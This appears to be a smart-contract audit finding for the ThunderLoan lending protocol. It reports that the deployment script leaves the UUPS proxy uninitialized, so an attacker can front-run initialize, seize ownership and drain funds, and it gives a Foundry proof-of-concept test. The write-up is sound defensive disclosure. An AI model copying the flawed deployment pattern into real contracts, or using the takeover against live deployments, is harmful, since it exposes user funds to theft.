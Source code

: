 The protocol utilizes the UUPS proxy pattern for upgradeability, where the implementation logic resides in a `ThunderLoan` contract and is delegated to from an `ERC1967Proxy`. The `ThunderLoan` contract uses an `initialize` function in place of a constructor to set up its initial state, including setting the contract `owner`.

The provided deployment script, `DeployThunderLoan.s.sol`, correctly deploys the `ThunderLoan` implementation and the `ERC1967Proxy`, but it critically fails to call the `initialize` function on the proxy.

```solidity
// script/DeployThunderLoan.s.sol
contract DeployThunderLoan is Script {
    function run() public {
        vm.startBroadcast();
        ThunderLoan thunderLoan = new ThunderLoan();
        // The proxy is deployed, but initialize() is never called.
        new ERC1967Proxy(address(thunderLoan), "");
        vm.stopBroadcast();
    }
}
```

Because the `initialize` function has no access control (other than ensuring it's only called once), the first person to call it will become the owner of the protocol.

#### Impact

An attacker who discovers the uninitialized proxy can front-run the legitimate deployer and call `initialize` themselves. This grants the attacker full ownership of the `ThunderLoan` protocol, leading to catastrophic consequences:

-   **Malicious Upgrades:** As the owner, the attacker can upgrade the proxy to a malicious implementation contract, allowing them to steal all funds deposited in the protocol.
-   **Complete Control:** The attacker can execute any owner-only function, such as changing fees, disabling tokens (potentially triggering the permanent lock vulnerability), and other administrative actions.

This vulnerability compromises the entire protocol, leading to a complete loss of integrity and user funds.

#### Proof of Concept

The following test demonstrates that an arbitrary `attacker` can call `initialize` on the newly deployed proxy and successfully set themselves as the owner.

```solidity
    function test_audit_uninitialized() public {
        // 1. Deploy implementation and proxy, but do not initialize
        ThunderLoan tl = new ThunderLoan();
        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));
        ERC1967Proxy proxy = new ERC1967Proxy(address(tl), "");
        tl = ThunderLoan(address(proxy));

        // 2. Attacker calls initialize
        address attacker = makeAddr("attacker");
        vm.prank(attacker);
        tl.initialize(address(pf));

        // 3. Attacker is now the owner
        assertEq(attacker, tl.owner());
    }
```
